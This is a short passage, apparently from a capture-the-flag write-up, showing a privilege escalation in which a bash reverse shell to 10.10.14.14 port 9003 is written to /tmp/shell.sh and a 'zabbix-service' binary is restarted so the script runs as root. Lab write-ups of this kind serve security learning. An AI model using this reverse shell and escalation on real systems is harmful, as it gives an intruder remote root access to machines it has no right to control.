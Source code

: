 Creating _/tmp/shell.sh_:
```markdown
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.14/9003 0>&1
```

Executing _zabbix-service_ and stopping and starting the service:
```markdown
./zabbix-service
start or stop?: stop

./zabbix-service
start or stop?: start
```

After executing, the listener on my IP and port 9003 will start a shell as root!

